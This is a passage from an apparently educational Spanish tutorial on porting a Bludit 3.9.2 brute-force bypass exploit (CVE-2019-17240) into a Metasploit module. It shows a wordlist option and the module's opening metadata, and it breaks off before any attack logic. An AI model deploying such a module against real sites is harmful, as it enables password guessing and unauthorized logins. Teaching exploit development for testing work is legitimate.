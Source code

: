 Al observar nuestro exploit, vemos que se requerirá una lista de palabras en lugar de la variable `BLUDITPASS` para que el módulo realice un ataque de fuerza bruta contra las contraseñas para el mismo nombre de usuario. Se vería algo así en el siguiente fragmento:

```ruby
OptPath.new('PASSWORDS', [ true, 'La lista de contraseñas',
        File.join(Msf::Config.data_directory, "wordlists", "passwords.txt") ])
```

El resto del código del exploit necesita ser ajustado de acuerdo con las clases, métodos y variables utilizados en la adaptación al Framework Metasploit para que el módulo funcione al final. La versión final del módulo se vería así:

### Prueba de Concepto

```ruby
##
# Este módulo requiere Metasploit: https://metasploit.com/download
# Fuente actual: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::HttpClient
  include Msf::Exploit::PhpEXE
  include Msf::Auxiliary::Report
  
  def initialize(info={})
    super(update_info(info,
      'Name'           => "Bludit 3.9.2 - Bypass de Mitigación de Fuerza Bruta en la Autenticación",
      'Description'    => %q{
        Las versiones anteriores e incluyendo la 3.9.2 del CMS Bludit son vulnerables a un bypass del mecanismo anti-fuerza bruta que está en su lugar para bloquear a los usuarios que han intentado iniciar sesión incorrectamente diez veces o más. Dentro del archivo bl-kernel/security.class.php, una función llamada getUserIp intenta determinar la dirección IP válida del usuario final confiando en los encabezados HTTP X-Forwarded-For y Client-IP.
      },
      'License'        => MSF_LICENSE,
      'Author'         =>
        [
          'rastating', # Descubrimiento original
          '0ne-nine9'  # Módulo de Metasploit
        ],
      'References'     =>
        [
          ['CVE', '2019-17240'],
          ['URL', 'https://rastating.github.io/bludit-brute-force-mitigation-bypass/'],
          ['PATCH', 'https://github.com/bludit/bludit/pull/1090' ]
        ],
      'Platform'       => 'php',
      'Arch'           => ARCH_PHP,
      'Notes'          =>
        {
          'SideEffects' => [ IOC_IN_LOGS ],
          'Reliability' => [ REPEATABLE_SESSION ],
          'Stability'   => [ CRASH_SAFE ]
        },
      'Targets'        =>
        [
          [ 'Bludit v3.9.2', {} ]
        ],
      'Privileged'     => false,
      'DisclosureDate' => "2019-10-05",
```